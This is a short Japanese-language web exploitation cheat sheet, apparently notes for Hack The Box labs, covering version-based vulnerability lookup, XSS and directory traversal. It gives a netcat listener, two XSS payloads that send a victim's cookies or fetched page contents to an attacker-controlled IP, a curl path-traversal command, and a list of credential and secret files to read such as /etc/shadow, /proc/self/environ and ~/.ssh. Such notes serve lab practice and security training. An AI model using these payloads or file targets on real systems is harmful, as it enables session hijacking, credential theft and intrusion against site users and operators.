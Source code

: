 # Webの脆弱性活用

## ライブラリ脆弱性の活用
レスポンスヘッダやWappalyzerからバージョン情報を取得できる場合、そのバージョンに存在する重大な脆弱性が報告されていないかと検索する。

https://www.wappalyzer.com/

## XSS
攻撃対象にXSSでスクリプトを実行させることが可能な場合、以下のようなコードを実行させて自分のサーバに情報を送らせる。
HTBにおいてはローカルネット内で完結しているためポート解放や外部のサーバを借りる必要はない。

ncコマンドで受信側（自分のサーバ）を用意する
```
nc -lvnp 4444
```

Cookieを取得（http-only属性が付いていない場合）
```
<script>
  fetch('http://<<受信側（自分のサーバ）のIP>>:4444/', {
            method: 'POST',
            mode: 'no-cors',
            body:document.cookie
      });
</script>
```

指定したページにアクセスさせた結果を取得（レスポンスボディ）
```
<script>
fetch("http://<<アクセスさせたページのパス>>").then(r=>r.text()).then(z=>navigator.sendBeacon("http://<<受信側（自分のサーバ）のIP>>:4444/", z))
</script>
```

## ディレクトリトラバーサル
curlでディレクトリトラバーサル攻撃を行う場合、--path-as-isオプションが必要。（curl側でのパスの正規化を防ぐため）
```
curl --path-as-is http//example.com/../../../etc/hosts
```

ディレクトリトラバーサルが可能な場合、以下のようなファイルを調査すると良い

* /etc
    * /etc/hosts ホスト情報
    * /etc/passwd ユーザ情報
    * /etc/shadow ユーザのパスワードハッシュ
    * /etc/apache2 apache設定ファイル
        * /etc/apache2/apache2.conf 
        * /etc/apache2/sites-enabled/000-default.conf
    * /etc/nginx nginx設定ファイル
        * /etc/nginx/nginx.conf
        * /etc/nginx/sites-enabled/default
        * /etc/nginx/sites-available/default
* /proc
    * /proc/self 実行中プロセスの情報
        * /proc/self/maps メモリマップ
        * /proc/self/mem 実際のメモリへのシンボリックリンク
        * /proc/self/cwd カレントディレクトリ
        * /proc/self/environ 環境変数
        * /proc/self/cmdline 実行時のコマンド
* /var
    * /var/www/html Webの公開ファイル
* ~
    * ~/.ssh sshの情報
    * ~/.bash_history bashの履歴